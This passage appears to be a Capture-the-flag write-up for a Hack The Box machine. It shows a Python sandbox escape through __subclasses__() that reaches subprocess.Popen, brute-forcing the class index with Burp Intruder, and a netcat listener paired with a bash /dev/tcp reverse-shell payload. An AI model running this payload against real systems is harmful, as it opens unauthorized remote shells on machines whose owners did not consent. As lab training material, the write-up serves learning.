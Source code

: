 - **1**: You can add an empty tuple `()` appending the `__class__` attribute to it following by the `__bases__` attribute that will return the inherits classes, adding `.__subclasses__()` method at the last thing that will return all the classes inherit from an object (since everything in python is an object). 
```python frame="terminal" title="python"
print((()).__class__.__bases__[0].__subclasses__())
```

- **2**: OR you can do it with empty string (`''`) instead of tuple (`()`):
```python frame="terminal" title="python"
print(''.__class__.__bases__[0].__subclasses__())
```

- **3**: OR use empty list if you want (`[]`). 

But the easiest way is to use the object reference itself (if it's not restricted)
```python frame="terminal" title="python"
print(object.__subclasses__())
```

![Desktop View](https://cdn.jsdelivr.net/gh/Macabely/macabely.github.io@master/src/assets/blog/htb-code/6.png)

***

# III Exploit

As you can see we got bunch of classes, we only focus on ones with **command execution**. There are several ones (`socket.socket`, `os._wrap_close`, `subprocess.Popen`) that may help us to get a **reverse shell**. Let's use `subprocess.Popen`, since it's the easiest way to do it. But the problem is to use this class we need to know it's index. And to know it's index, we don't have a way other than brute forcing it.

![Desktop View](https://cdn.jsdelivr.net/gh/Macabely/macabely.github.io@master/src/assets/blog/htb-code/7.png)

By increase the number from **1** until we find the intended class that we want, we gonna use that number as the intended index in our payload after. 
*You can brute force this easily with burp intruder*. And you will successfully find the index.

# IV Reverse Shell


Now we can use `subprocess.Popen` to execute our reverse shell.

We need first to establish a listener: `nc -lvnp 9001`. Then run this code:

```python frame="terminal" title="python"
print(object.__subclasses__()[317](["bash", "-c", "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1"]))
```

<figure>
  <img src="https://cdn.jsdelivr.net/gh/Macabely/macabely.github.io@master/src/assets/blog/htb-code/8.png" alt="first flag">
  <figcaption style="text-align: center;"> We successfully got a reverse shell </figcaption>
</figure>
